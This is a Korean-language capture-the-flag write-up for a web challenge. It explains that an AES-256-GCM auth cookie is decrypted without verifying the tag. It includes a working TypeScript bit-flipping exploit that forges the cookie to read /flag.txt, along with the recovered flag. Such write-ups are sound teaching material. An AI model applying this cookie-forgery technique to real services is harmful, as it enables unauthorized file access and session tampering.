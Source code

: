 여기서 집중해야 하는 부분은 `makeAuth`와 `needsAuth` 함수이다.
각각 `auth` 쿠키를 생성하고, `auth` 쿠키를 확인하는 함수이다.
`aes-256-gcm`을 사용하여 암호화를 하고 있다.<br>
그리고, `GET /`에서 `tmpfile`을 읽어온다.

즉, `auth` 쿠키를 조작하여 `tmpfile`를 `/flag.txt`를 가리키도록 만들어 `flag`을 읽어올 수 있다.

그런데, `aes-256-gcm`을 사용하고 있기 때문에 어떻게 `auth` 쿠키를 조작하기에는 어려움이 있어 보였다.
그러나, `needsAuth`에서 `cipher.final`을 호출하고 있지 않기 때문에, **인증 태그 검증 없이 암호문을 복호화**하기 때문에 이를 악용하여 `auth` 쿠키를 조작할 수 있다.

```typescript title="exploit.ts"
import { logger } from "@utils";
import { create } from "@web";

const r = create({
  baseURL: "http://localhost:8080",
  ignoreHttpErrors: true,
});

await r.get("/");

const [iv, authTag, ct] = (r.getCookie("auth") as string)
  .split(".")
  .map((v) => Buffer.from(v, "base64"));

const target = `{"tmpfile":"/flag.txt","a":"`;
const origin = `{"tmpfile":"/tmp/pastestore/`;

for (let i = 0; i < target.length; i++) {
  ct[i] = ct[i] ^ target[i].charCodeAt(0) ^ origin[i].charCodeAt(0);
}

r.setCookie(
  "auth",
  `${iv.toString("base64")}.${authTag.toString("base64")}.${ct.toString(
    "base64"
  )}`
);

await r.get("/").then((res) => logger.flag(res.data.match(/lactf{.*}/)));
```

`lactf{m4yb3_st1ck_t0_l1br4r1es_wr1tt3n_by_comp3t3nt_p3opl3}`
